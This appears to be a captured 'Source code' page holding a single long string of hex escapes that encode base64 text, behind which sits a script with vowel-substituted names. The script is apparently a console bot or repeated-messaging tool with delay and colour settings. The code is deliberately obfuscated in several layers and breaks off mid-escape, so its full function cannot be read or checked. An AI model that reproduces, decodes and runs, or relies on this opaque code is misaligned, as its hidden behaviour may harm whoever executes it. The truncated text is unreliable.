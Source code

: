 T\x46\x7aN\x43\x42\x77\x4e\x47\x77\x30\x61CB\x74\x4e\x574\x7a\x49G\x49\x79dCI\x75JH\x517D\x51\x70zb\x44U1\x63Cg\x32\x4bTs\x4e\x43\x69QycH\x4d0\x50\x58I\x31M\x57R\x73N\x47\x34\x31\x4bCR\x77\x4d\x33\x51\x30\x61C4\x69\x57\x79\x520M\x33\x4ar\x4eH\x4d/J\x48A\x7a\x64D\x52\x6fXSB\x4a\x62\x6eA\x7a\x64\x43\x52yN\x57Q\x67\x4f\x69\x41\x69LiR\x30M\x33J\x72\x4e\x48\x4dpOw\x30KI\x44RmKC\x51yc\x48\x4d\x30\x50\x540\x69Ni\x4a\x50\x55iQ\x79\x63H\x4d0P\x54\x30\x69c3\x410b\x69\x49pew0\x4bJH\x4e0X3NwN\x4749\x64H\x49\x7a\x4e\x54\x73NCn0gDQ\x6f\x67\x4eWxzN\x54Rm\x4b\x43Qy\x63\x48M\x30\x50\x54\x30i\x59S\x4aP\x55\x69Qy\x63HM0\x50\x540\x69\x62\x54JiIH\x51yazV\x75\x63\x79\x49p\x65\x770K\x4a\x48\x4e0\x58\x32\x49ybjNzPX\x52yM\x7aU7D\x51\x709\x44\x51\x6f\x67NWxzNT\x52\x6dK\x43\x51y\x63HM\x30\x50T\x30\x69\x62\x79\x4aP\x55iQycH\x4d\x30P\x54\x30id\x7a\x46\x30Y2\x67\x69\x4bX\x73N\x43\x69R\x7ad\x469\x33MX\x52j\x61D\x31\x30\x63jM1\x4f\x770\x4bfQ0KI\x44VsczV7DQ\x6f\x31Y\x32gyJGs\x7a\x62\x6a\x52u\x5a\x794i\x57y\x52yNWQ\x68JG\x73\x7a\x62\x6a\x52\x75\x5a\x31\x30kc\x6a\x56\x6bIGg\x78b\x6e\x6b\x78\x49\x44\x46k\x4d\x53Bv\x49\x48A0b\x44Ro\x4d\x57\x34g\x49SE\x69\x4ci\x520O\x77\x30K\x66\x51\x30Kc\x32w\x31NX\x41o\x4eik\x37D\x51ogN\x47Y\x6f\x4a\x48\x4e\x30\x583N\x77\x4eG\x34\x70e\x770K\x4eWN\x6fM\x69R\x72\x4d2\x34\x30bm\x63u\x4a\x48Q\x75\x49\x6cs\x6b\x63j\x56\x6b\x49SR\x72\x4d2\x340\x62\x6d\x64\x64J\x48\x41z\x64\x44R\x6f\x49GQ\x31bD\x465I\x48\x4e\x77NG\x34gaS\x42zNW\x4dgI\x69\x34k\x64\x44s\x4e\x43\x6a\x56jaD\x49\x6ba\x7a\x4e\x75NG5\x6e\x4ciJb\x4a\x48\x491ZC\x45k\x61\x7a\x4e\x75\x4eG\x35nXS\x52w\x4d3Q0a\x43BsN\x47\x300\x64C\x42zc\x44R\x75IGUwIHNw\x4e\x474g\x59n\x49\x79IS\x45\x69L\x69RyO\x770\x4bJ\x47\x78\x74\x64\x44\x31lMDs\x4e\x43\x69\x51\x78\x50\x54A\x37\x44\x51\x6fk\x4d\x53\x73\x72\x4fw\x30\x4b\x49\x47Y\x79\x63\x69\x67\x6bM\x540\x77\x4f\x79QxP\x43\x52\x73b\x58\x517JDE\x72\x4b\x79\x6c7\x44Qp\x7ab\x44U1c\x43h\x70KTsN\x43\x69\x52\x7acDRuPW\x70zM\x6d\x35fZDV\x6a\x4dm\x51\x31\x4bHNwNG\x34oJDEsJ\x44\x4e\x7aNXI\x30Z\x43\x6bsdHIz\x4e\x53k7\x44\x51\x6fk\x62\x58\x4enPS\x52z\x63DRuWyJt\x63\x32ci\x58TsNC\x69RjMm49a\x6eMy\x62\x6c9k\x4eWM\x79\x5a\x44UoY\x7aI\x30bi\x67kM3M\x31c\x6aRkK\x53\x780\x63\x6aM1\x4bT\x73N\x43\x69RjM\x6a\x52\x75PSR\x6a\x4dm5\x62I\x6d\x4d\x79NG4\x69\x58TsNCi\x41\x30\x5ai\x67\x6bc\x33A\x30\x62\x6cs\x69c3\x51\x78\x64\x44NzI\x6c09IjYiKX\x73\x4e\x43\x6a\x56j\x61\x44\x49\x6bcD\x4e0N\x47\x67uI\x6csi\x4ciQ0\x61\x6a\x49u\x49u\x4b\x41\x6fiIu\x4aHA\x7adD\x52\x6fLi\x4a\x64IG0\x31\x633\x4d\x78Z\x7aU\x6b\x63jVk\x49\x44\x6f\x67\x49i4kN\x47o\x79L\x69\x52\x74\x632\x63uJ\x48\x517D\x51\x6f1\x59\x32\x67yJ\x48AzdDRoL\x69Jb\x49i\x34k\x59\x6a\x52yMy4i\x66iI\x75J\x48\x41zd\x44Ro\x4ciJ\x64\x49D\x4ezN\x58I\x30Z\x43\x52\x79N\x57Q\x67Oi\x41i\x4ciR\x30\x4d\x33JrN\x48Mu\x4a\x44N\x7aNXI0\x5a\x43\x34\x6bcD\x4e\x30NG\x67\x75IiB8IH\x51yd\x44\x46\x73IG\x4dy\x4e\x474k\x63j\x56\x6bI\x44o\x67\x49\x6a\x73\x31Y\x32\x67yJ\x48Q\x7a\x63\x6d\x730\x63y\x34kYz\x490b\x694\x6b\x64DsN\x43i\x52zdF\x39\x7a\x63DRuP\x57Y\x78\x62\x48M\x31\x4fw0KI\x43B\x39\x44Q\x6f\x67\x66Q0\x4bf\x51\x30K\x49D\x56\x73\x63z\x55\x30\x5a\x69\x67\x6bc3\x52\x66\x63\x33\x41\x30bil\x37DQo1Y2g\x79\x4aH\x49\x31ZC4iWy\x46dIHN\x77N\x474\x67Y\x6a\x56y\x4dWt\x6f\x4eHI\x67\x49\x53EiLi\x52wM3\x51\x30\x61\x434kd\x44\x73N\x43jV\x34N\x48Q7DQ\x70\x39DQoNCiA\x30\x5a\x69\x67kc\x33\x52\x66Yj\x4auM\x33\x4dpew0\x4bN\x57\x4eo\x4diR\x72M24\x30\x62m\x63uJHQ\x75\x49lskc\x6aVkIS\x52r\x4d2\x34\x30bmd\x64\x4aH\x51z\x63\x6d\x73\x30\x63yBo\x4dn\x51\x67d\x6a\x52\x6bN\x54Ig\x49S\x45iL\x69R0Ow\x30\x4bN\x57\x4e\x6fM\x69R\x72\x4d\x32\x340\x62\x6dc\x75I\x6c\x73\x6b\x63j\x56k\x49\x53R\x72\x4d\x32\x34\x30\x62\x6d\x64\x64\x4aH\x4